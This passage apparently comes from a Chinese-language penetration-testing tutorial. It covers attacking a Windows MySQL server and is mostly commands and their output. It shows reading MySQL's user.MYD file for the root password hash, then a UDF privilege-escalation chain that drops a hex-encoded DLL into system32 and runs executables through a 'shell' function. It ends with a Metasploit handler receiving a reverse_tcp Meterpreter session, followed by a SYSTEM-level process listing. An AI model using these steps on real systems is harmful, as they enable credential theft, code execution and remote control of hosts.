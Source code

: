 ```code
type C:\MySQL\MySQL Server 5.0\data\mysql\user.MYD
```

得到 root hash

在实际情况中，交互的shell下运行 `mysql -uroot -pxxx` 无法继续交互，需要参数 e 解决这个问题。
```code
mysql -uroot -pxxxxxxxx mysql -e "create table a (cmd LONGBLOB);"
mysql -uroot -pxxxxxxxx mysql -e "insert into a (cmd) values (hex(load_file('C:\\xxxx\\xxxx.dll')));"
mysql -uroot -pxxxxxxxx mysql -e "SELECT unhex(cmd) FROM a INTO DUMPFILE
 'c:\\windows\\system32\\xxxx.dll';"
mysql -uroot -pxxxxxxxx mysql -e "CREATE FUNCTION shell RETURNS STRING SONAME 'udf.dll'"
mysql -uroot -pxxxxxxxx mysql -e "select shell('cmd','C:\\xxxx\\xxx\\xxxxx.exe');"
```
![](../do/media/0778524b132d34c4e9ac2bdeb4f5ff26.jpg)

**如果限制上传大小同样可以hex解决上传大小问题。**

### 4、msf 操作实例  

以下为部分msf操作实例
```code
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > exploit -l
meterpreter > ps

Process List
============

PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----

0 0 [System Process]
4 0 System x86 0 NT AUTHORITY\SYSTEM
304 4 smss.exe x86 0 NT AUTHORITY\SYSTEM\SystemRoot\System32\smss.exe
352 304 csrss.exe x86 0 NT AUTHORITY\SYSTEM \?? \C:\WINDOWS\system32\csrss.exe
376 304 winlogon.exe x86 0 NT AUTHORITY\SYSTEM \?? \C:\WINDOWS\system32\winlogon.exe
424 376 services.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\services.exe
436 376 lsass.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\lsass.exe
620 424 vmacthlp.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\VMware\VMware Tools\vmacthlp.exe
636 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\svchost.exe
708 424 svchost.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\svchost.exe
768 424 svchost.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\svchost.exe
812 424 svchost.exe x86 0 NT AUTHORITY\LOCAL SERVICE C:\WINDOWS\system32\svchost.exe
828 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
1000 424 spoolsv.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\spoolsv.exe
1028 424 msdtc.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\msdtc.exe
1160 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
1228 424 inetinfo.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\inetsrv\inetinfo.exe
1252 424 sqlservr.exe x86 0 NT AUTHORITY\SYSTEM C:\PROGRA\~1\MICROS~1\MSSQL\binn\sqlservr.exe
1304 424 mysqld.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\MySQL\MySQL Server 5.1\bin\mysqld.exe
1348 424 svchost.exe x86 0 NT AUTHORITY\LOCAL SERVICE C:\WINDOWS\system32\svchost.exe
1408 424 vmtoolsd.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
1472 424 mssearch.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\Common Files\System\MSSearch\Bin\mssearch.exe
1720 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
2128 2084 explorer.exe x86 0 xxxxxxxxxxxx\Administrator C:\WINDOWS\Explorer.EXE
```